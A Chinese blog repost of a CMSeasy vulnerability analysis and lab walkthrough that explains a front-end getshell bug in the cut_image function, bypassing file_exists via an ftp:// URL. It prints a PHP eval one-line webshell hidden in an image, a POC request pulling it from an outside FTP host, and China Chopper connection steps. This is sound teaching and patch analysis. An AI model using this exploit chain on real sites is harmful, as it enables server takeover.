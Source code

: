 ```yaml
---
layout: post
title: CMSeasy前台getshell
description: CMSeasy前台getshell
category: blog
---
```

# 简要描述
转载自：https://xianzhi.aliyun.com/forum/read/215.html

i春秋实验：https://www.ichunqiu.com/vm/57631/1

CMSEasy官方在2016-10-12发布了一个补丁,描述只有两句话

```
前台getshell漏洞修正；
命令执行修复。
```
我们就根据补丁来分析一下这个前台Getshell漏洞

漏洞详情

在补丁页面http://www.cmseasy.cn/patch/show_1116.html下载补丁CmsEasy_for_Uploads_20161012.zip

修改的文件不多 通过diff发现补丁中lib/default/tool_act.php 392行的cut_image_action()函数被注释了

来看看这个函数
```
/*function cut_image_action() {
    $len = 1;
    if(config::get('base_url') != '/'){
        $len = strlen(config::get('base_url'))+1;
    }
    if(substr($_POST['pic'],0,4) == 'http'){
        front::$post['thumb'] = str_ireplace(config::get('site_url'),'',$_POST['pic']);
    }else{
        front::$post['thumb'] = substr($_POST['pic'],$len);
    }
    $thumb=new thumb();
    $thumb->set(front::$post['thumb'],'jpg');
    $img=$thumb->create_image($thumb->im,$_POST['w'],$_POST['h'],0,0,$_POST['x1'],$_POST['y1'],$_POST['x2'] -$_POST['x1'],$_POST['y2'$new_name=$new_name_gbk=str_replace('.','',Time::getMicrotime()).'.'.end(explode('.',$_POST['pic']));
    $save_file='upload/images/'.date('Ym').'/'.$new_name;
    @mkdir(dirname(ROOT.'/'.$save_file));
    ob_start();
    $thumb->out_image($img,null,85);
    file_put_contents(ROOT.'/'.$save_file,ob_get_contents());
    ob_end_clean();
    $image_url=config::get('base_url').'/'.$save_file;
    //$res['size']=ceil(strlen($img) / 1024);
    $res['code']="
                    //$('#cut_preview').attr('src','$image_url');
                    $('#thumb').val('$image_url');
                    alert(lang('save_success'));
    ";
    echo json::encode($res);
*/
```
看保存文件名的生成:
```
$new_name=$new_name_gbk=str_replace('.','',Time::getMicrotime()).'.'.end(explode('.',$_POST['pic']));
```
直接用了 $_POST['pic'] 的后缀做为新文件的扩展名，应该就是这里导致的getshell

不过这里利用需要一点技巧
```
1、图片会经过php的图像库处理，如何在处理后仍然保留shell语句

2、远程加载图片需要通过file_exists函数的验证(要知道http(s)对于file_exists来说会固定返回false)
```
拆招：

在正常图片中插入shell并无视图像库的处理 这个freebuf有介绍 国外也有不少分析，当然直接拿freebuf的方法应该是不成功的 需要一点小小的调整

关于file_exits()函数 ftp://协议就可以绕过 wrappers中有介绍
```
Attribute	PHP4	PHP5
Supports stat()	No	As of PHP 5.0.0: filesize(), filetype(), file_exists(), is_file(), and is_dir() elements only.
As of PHP 5.1.0: filemtime().
5.0.0以上 就支持file_exists()了
```
这里构造payload还有一点需要注意的
```
$len = 1;
if(config::get('base_url') != '/'){
    $len = strlen(config::get('base_url'))+1;
if(substr($_POST['pic'],0,4) == 'http'){
    front::$post['thumb'] =
    str_ireplace(config::get('site_url'),'',$_POST['pic']);
}else{
    front::$post['thumb'] = substr($_POST['pic'],$len);
```
如果$_POST['pic']开头4个字符不是http的话，就认为是本站的文件，会从前面抽取掉baseurl（等于返回文件相对路径）

所以构造的时候 如果站点不是放在根目录 则需要在前面补位strlen(base_url)+2 如果放在根目录 也需要补上1位（'/'的长度）


实验工具

FTPserver.exe:一个小型的Ftp server软件。 下载地址：
```
http://file.ichunqiu.com/bfgh4eru
```

实验内容

请将工具下载到本地，将构造好的图片(包装了一句话木马)复制c:\ftp目录下。
我们打开图片内容，可以看到标识处，含有一句话代码<?php eval($_POST['c']) ;?>菜刀连接密码为c。
下面将该图片文件名修改为phpinfo.php，下面我们利用该图片木马进行漏洞利用。

请打开实验工具下载的FTP Server工具，请将该实验工具访问目录修改为c:\ftp，点击启动服务即可。

首先使用火狐浏览器打开目标界面http://www.test.ichunqiu 按F9调出hackbar工具，如下图所示：
![hackbar](https://static2.ichunqiu.com/icq/resources/fileupload/57631/4.png "hackbar")

我们构造漏洞利用代码，访问URL为http://www.test.ichunqiu/index.php?case=tool&act=cut_image

点击Enable Post data打开POST窗口，注入以下POC内容， pic=1ftp://172.16.11.2/phpinfo.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120 点击Execute提交，即可返回上传文件地址。
![hackbar](https://static2.ichunqiu.com/icq/resources/fileupload/57631/5.png "hackbar")


我们将上图返回的地址，复制到地址栏，(请将\/路径替换为/)访问。可以看到该文件访问成功，
![hackbar](https://static2.ichunqiu.com/icq/resources/fileupload/57631/6.png "hackbar")

下面我们尝试使用中国菜刀连接该一句话木马。复制该地址。
![hackbar](https://static2.ichunqiu.com/icq/resources/fileupload/57631/7.png "hackbar")

我们点击桌面TOOLS图片，webshell目录->中国菜刀目录-> 双击打开chopper.exe文件。 在程序窗口内，右键将地址粘贴，地址后面密码填写为c 脚本类型选择为PHP，点击添加即可。

点击添加后可以看到该目录，增加一条记录，我们双击该条目，即可进入webshell目录管理界面，该漏洞利用成功。
![hackbar](https://static2.ichunqiu.com/icq/resources/fileupload/57631/8.png "hackbar")

实验结果分析与总结

本次试验我们介绍并了解了此漏洞形成的原理，掌握了漏洞的利用方法，请同学们多加练习

修复方案

将 CmsEasy更新为最新版本
